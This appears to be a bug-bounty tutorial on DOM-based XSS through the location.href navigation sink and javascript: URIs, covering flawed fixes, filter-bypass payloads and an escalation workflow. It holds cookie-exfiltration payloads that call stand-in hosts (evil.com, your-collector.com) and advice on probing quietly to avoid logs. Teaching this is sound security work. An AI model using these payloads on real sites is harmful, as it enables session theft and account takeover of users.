

# Why ```location.href``` Isn’t Just a Redirect: Understanding Navigation-Based XSS


## Overview
You know ```innerHTML``` and ```document.write``` as sinks, a point in a web application where untrusted data (like user input) is written to the Document Object Model (DOM) in a way that can be executed as code.

Here's the key distinction that makes ```location.href``` different:  
```innerHTML``` and ```document.write``` are HTML parsing sinks. They hand your input to the HTML parser, which is what creates the execution opportunity. The browser sees `````` and does something with it.

```location.href``` is a **navigation sink**. It doesn't parse HTML. It tells the browser *go here*. Which means HTML-based payloads are completely useless against it. The ```javascript:``` URI scheme, though, turns navigation itself into execution.

This is the conceptual shift. You're not injecting markup, you're injecting a destination.


## The Basics
Look at this vulnerable function carefully. Predict what will happen.
```javascript
// URL in the browser bar is: https://example.com/redirect?url=https://safe.com

function redirect() {
  const params = new URLSearchParams(location.search);
  const dest = params.get('url');
  location.href = dest;
}

redirect();
```

What is this function doing?
- **function redirect()** - Creates a function called '*redirect*'.
- **URLSearchParams();** - Parse the query string of the current page's URL
- **(location.search)** - ```?url=https://safe.com```
- **params.get('url')** - ```https://safe.com```
- **dest** - "```https://safe.com```"
- **location.href = dest** - Browser navigates to ```https://safe.com```

Now, what will happen if we are able to replace ```https://safe.com``` with a ```javascript:``` URI scheme? Something like: ```javascript:alert(1)```.

Instead of going to a URL, it **executes** the JavaScript expression ```alert(1)``` in the **current page's context**. This is how ```javascript:``` URIs work. The browser treats the portion after ```javascript:``` as code to evaluate.

The ```javascript:``` URI scheme is not an XSS trick. It is a legitimate browser feature designed so that ```<a href="javascript:doSomething()">``` works in HTML. You're abusing what the browser *intentionally supports*.

The key phrase is **current page context**. When ```location.href = "javascript:alert(1)"``` fires, the JavaScript executes with the same origin, the same document, the same ```document.cookie``` as the page that triggered it. This is full same-origin code execution. Not sandboxed, not in an iframe, not in a worker.

That's why it's dangerous. It's equivalent in impact to reflected or stored XSS. You get arbitrary JS running as the victim on the target origin.



Now that we understand how the sink works, the next question is: what happens when developers try to fix it?

## Filter Evasion

Let's say a developer gets a call to fix the problem from the previous example. Considering the following three sets of code, which would be the ideal choice to counteract the problem?
```javascript
// Fix attempt A
function redirect() {
  const dest = params.get('url');
  if (dest.includes('javascript')) {
    return;
  }
  location.href = dest;
}

// Fix attempt B
function redirect() {
  const dest = params.get('url');
  location.href = encodeURIComponent(dest);
}

// Fix attempt C
function redirect() {
  const dest = params.get('url');
  if (!dest.startsWith('http')) {
    return;
  }
  location.href = dest;
}
```

**Analysis:**  
**Fix A** IS bypassable. String matching on ```'javascript'``` is defeated fairly easily. The browser is case-insensitive on URI schemes. ```JaVaScRiPt:alert(1)``` bypasses ```.includes('javascript')```. Also bypassable with URL encoding: ```java%09script:``` (some older browsers permitted a tab character in the middle) or null bytes in some implementations.

**Fix B** is the wrong mental model. ```encodeURIComponent('javascript:alert(1)')``` produces ```javascript%3Aalert(1)```. When assigned to ```location.href```, the browser decodes ```%3A``` back to ```:``` before processing the URI scheme. This does not prevent execution. URL encoding does not sanitize navigation sinks. This is a commonly misunderstood failure mode.

**Fix C** is the correct approach, but implementation matters. ```startsWith('http')``` blocks ```javascript:``` in the common case. But does it block ```javascript:``` with a leading newline? ```\njavascript:``` does not start with http, so it would be blocked.  
Note: ```//evil.com``` does NOT pass ```startsWith('http')```, it would be blocked. However, ```http://evil.com``` would pass, creating an open redirect vulnerability. *The fix prevents XSS but creates a separate bug*.

The secure approach is an allowlist of trusted destinations. Scheme checks alone cannot prevent open redirects.

## Exploitation Mechanics in Practice

When you find a potential ```location.href``` sink in a live target, your workflow looks like this:
1. **Find the sink** - grep JS for ```location.href```, ```.assign```, ```.replace```
    - Use: DevTools → Sources → search ```location\.href\s*=``` in all JS files
    - This matches variations like:
    ```javascript
    location.href = dest
    location.href=dest
    location.href   =   dest
    ```

2. **Trace the source** - where does the value come from? Work backward from the sink to identify where the data originates. Look for values pulled from attacker-controllable sources like:
    - ```location.search``` (query parameters)
    - ```location.hash``` (URL fragment)
    - ```postMessage``` (cross-origin messages)
    - ```document.referrer``` (the linking page's URL)

3. **Probe for scheme acceptance** - Does ```javascript:``` reach the sink unfiltered?
    - Start with ```javascript:void(0)``` No execution, but confirms sink
    - **IMPORTANT** - Don't start with ```javascript:alert(1)```. That immediately triggers execution and creates log entries. Start with ```javascript:void(0)```. It proves the scheme reaches the sink without doing anything observable. A page that navigates nowhere in response to your probe has just told you the sink is accessible.
4. **Bypass filters if present** - test whether naive blocking mechanisms can be circumvented. Common bypass techniques for ```javascript:``` URI scheme include:
    - **Case variation:** ```JaVaScRiPt:alert(1)``` - schemes are case-insensitive
    - **URL encoding:** ```%6aavascript:alert(1)``` - decoded before scheme parsing
    - **Whitespace insertion:** ```java\tscript:alert(1)``` or ```java\nscript:alert(1)``` - Some browsers (especially older or edge-case parsers) tolerate whitespace inside schemes

5. **Escalate payload for impact** - severity is determined by what an attacker can achieve:
    - **Low**: ```alert(1)``` - proves execution but no data theft
    - **Medium**: ```alert(document.domain)``` - demonstrates execution in a sensitive context
    - **High**: ```document.location='https://evil.com/steal?c='+document.cookie``` - shows credential theft
    - **Critical**: Full account takeover via session token exfiltration and chaining with other vulnerabilities for persistence

## Real World Patterns

The most common real-world patterns you'll find on bug bounty targets:
- **Open redirect functionality** - the most obvious hunting ground. Any ```?redirect=```, ```?next=```, ```?url=```, or ```?return=``` parameter that the app uses to navigate the user after login/logout. These are designed to accept URLs. Developers often validate for open redirect but forget about ```javascript:```.

- **Single-page apps with client-side routing** - the app reads ```location.hash``` or ```location.search``` and uses it to route between views. Something like:
  ```javascript
  const page = new URLSearchParams(location.search).get('view');
  location.href = '/app/' + page;  // location.href sink
  // or:
  document.querySelector('#frame').src = page; // iframe src sink
  ```

- **```<a>``` tag ```href``` controlled by JS** - not a direct ```location.href``` sink but same exploitation path:
  ```javascript
  document.querySelector('#back-link').href = userControlledValue;
  ```
  When a user clicks that link, the browser processes the href as a navigation and ```javascript:``` works there too. Though unlike ```location.href```, this requires user interaction.

This pattern appears frequently in modern single-page applications, where hash-based routing is common.

## Single-Page Application (SPA): When Routing Becomes Execution
Unlike traditional websites where each link click loads an entirely new HTML page from the server, an SPA loads a single HTML page once, then dynamically rewrites content as the user interacts with it. Navigation happens client-side via JavaScript, often using the URL hash ```#``` to track "views" without triggering a full page reload.

Common SPA frameworks: React, Vue, Angular, Svelte.

Given the following block of code, is this URL vulnerable? ```https://app.example.com/#javascript:alert(document.domain)```
```javascript
// SPA router - runs on every page load
(function() {
  const hash = location.hash.slice(1); // strips the leading #
  if (hash) {
    location.href = decodeURIComponent(hash);
  }
})();
```

Yes it is vulnerable. Here is why:
- **(function() {** - Immediately-invoked function expression (IIFE) runs right away
- **const hash = location.hash.slice(1);** - strips the leading ```#```
  - **location.hash** - returns the fragment part of the URL including the hash: ```"#javascript:alert(document.domain)"```
  - **.slice(1)** - removes the first character: ```"javascript:alert(document.domain)"```
- **if (hash) {location.href = decodeURIComponent(hash);}** - If there's a hash value (not empty), it URL-decodes it and assigns it to ```location.href```, causing the browser to navigate to that destination.
  - But notice: if someone URL-encoded the payload to evade a WAF, ```decodeURIComponent``` would *decode it for you* before passing it to the sink. The developer thought they were being safe by decoding, however, they made bypass easier.

Remember number 5 from the earlier workflow: **Escalate payload for impact**. For a bounty submission you would try something like ```javascript:fetch('https://your-collector.com/?c='+document.cookie)```. This would demonstrate that an attacker can exfiltrate session tokens. For now, though, ```alert(document.domain)``` is better than ```alert(1)``` because it proves execution is happening on the target origin, not a sandboxed environment.

## Wrapping Up: The Mental Model Shift

At a glance, ```location.href``` doesn’t look like an XSS sink. There’s no HTML parsing, no DOM insertion, no obvious execution point. Just a redirect.

That assumption is exactly what makes it dangerous.

The key takeaway is this:
***Not all XSS comes from injecting markup***. Some of it comes from controlling **what the browser does next**.

With HTML sinks like ```innerHTML```, you’re injecting code into the page.
With navigation sinks like ```location.href```, you’re controlling where execution happens.

The ```javascript:``` URI scheme bridges that gap. It turns navigation into execution, allowing attacker-controlled input to run in the same origin, same context, and same privilege level as the application itself.

For bug hunters, this changes how you look at targets:

- A redirect parameter isn’t just an open redirect candidate
- A hash-based router isn’t just client-side navigation
- A link isn’t just a link

They are **all** potential paths to code execution.

Once you start thinking in terms of sinks and how browsers interpret input, these bugs become much easier to spot and much harder for developers to accidentally introduce.


